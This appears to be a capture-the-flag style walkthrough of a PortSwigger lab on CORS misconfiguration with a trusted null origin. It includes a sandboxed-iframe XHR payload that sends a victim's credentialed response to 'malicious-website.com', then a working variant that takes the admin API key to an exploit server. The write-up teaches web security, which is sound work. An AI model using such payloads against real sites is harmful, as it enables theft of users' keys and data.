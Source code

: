 Title: CORS vulnerability with trusted null origin
Desc:  This website has an insecure CORS configuration in that it trusts the "null" origin.
To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.
You can log in to your own account using the following credentials: wiener:peter 

# Theory: 
Some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-origin request:\
```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```
And the server responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

# Walkthrough:

We have the same request for API key: 
<img width="1082" height="374" alt="image" src="https://github.com/user-attachments/assets/6428b76c-84ff-4a83-8c8c-69b8904411bb" />

In this request I try to add null Origin:
<img width="1041" height="325" alt="image" src="https://github.com/user-attachments/assets/a7e35c55-201c-4210-8d6a-d526c4649494" />
It is reflected.

Now I try to run on my exploit server this tricky payload: 
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a4200520397808097893c9100860098.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0a78004b030c807797793b9601d900fb.exploit-server.net/log?key='+this.responseText;
};
</script>"></iframe>
```
After delivering exploit to the victim I can see API key in the log:

<img width="1713" height="276" alt="image" src="https://github.com/user-attachments/assets/1ebe6569-beec-4c62-90b7-756b7733e2d8" />









